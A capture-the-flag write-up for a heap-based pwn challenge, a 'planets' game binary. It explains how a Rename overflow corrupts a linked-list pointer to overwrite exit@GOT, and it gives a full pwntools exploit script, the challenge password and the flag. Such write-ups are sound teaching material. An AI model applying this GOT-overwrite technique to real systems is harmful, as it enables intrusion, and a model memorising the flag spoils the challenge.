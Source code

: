 # Intro

Protections:

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
<br>
After submitting the password "secret_passwd_anti_bad_guys" the game is initialize and menu is unlock:

```shell
$ ./challs
Passwd: secret_passwd_anti_bad_guys
Welcome in a new dimension...
	...Boooom... the big bang sound...
		a new universe has begun, with new physics laws...
	...here stacks look safe!
What is your next move? (Help)
>Help
Help		print help menu
Exit		close the connection
Jump		move to the next plant
GetName		get planet name
Rename		rename planet
Check		check if you can overflow the stack
GoBack		move to the previous planet
Search		looking for Zer0
Nap		    Get a nap
Admin		Access as Admin
What is your next move? (Help)
>
```
<br>
Initialization:

![img/a0.png](img/a0.png)

So 11 planet are created. They reside in the heap and each of them has the following structure:

                            ---------------
                            | planet name |
                ---------------------------
                |           | &data_40d0  |
                ---------------------------
                | next      | previous    |
                ---------------------------

- planet name: string
- &data_40d0: pointer to the "stamina" data of the game, which reside in the .data section
- next: pointer to the next planet
- previous: pointer to the previous planet


the pointer to the current planet is stored in a .bss variable


# Vulnerability

![img/a1.png](img/a1.png)

The function for renaiming the current planet gets an arbitrary length input, so we can overflow the internal data of the planet structure. Since we can overwrite "next" pointer we have a Write What Where condition.
Partial Relro gives us the possibility to write in the GOT table.

# Strategy

- Rename: write 16 characters to fill planet name and space before &data_40d0
- Print planet name: this will leak &data_40d0 address so we can calculate addresses of exit in the GOT table and the function to execute commands
- Rename: use the overflow to overwrite data and modify "next" poi ter with exit@got address
- Jump: update current pointer to the next so to point at exit@got
- Rename: overwrite exit with the admin function to execute commands
- exit: exit from menu and send the command to execute


# Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("challs")

context.binary = exe
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

gs = '''
c
'''

PADDING = b'A'*16


def conn():
    if args.LOCAL:
        r = gdb.debug("./challs", gdbscript=gs)
    else:
        r = remote("gamebox3.reply.it", 2692)
    return r


def rename(r, payload):
    r.sendlineafter(">", b'Rename')
    r.sendlineafter(b'Enter the new name\n', payload)
 

def leak(r):
    r.sendlineafter(">", b'GetName')
    r.recvuntil(b'AAAAAAAAAAAAAAAA')
    return u64(r.recvuntil(b'\n').strip(b'\n').ljust(8, b'\x00'))


def jump(r):
    r.sendlineafter(">", b'Jump')


def get_flag(r):
    r.sendlineafter(">", b'Exit')
    r.sendlineafter("> ", b'cat flag')
    r.interactive()



def main():
    r = conn()
    r.sendlineafter("Passwd: ", b'secret_passwd_anti_bad_guys')
    rename(r, PADDING)
    dataleak = leak(r)
    exit_got = dataleak - 0x40
    win = dataleak - 0x284A
    print("LEAK:.......",hex(dataleak))
    print("EXIT@GOT:...",hex(exit_got))
    print("WIN:........",hex(win))
    rename(r, PADDING + b'A'*8 + p64(exit_got))
    jump(r)
    rename(r, p64(win))
    get_flag(r)   


if __name__ == "__main__":
    main()
```

# Flag
`{FLG:jump_in_jump_to_Jump}`
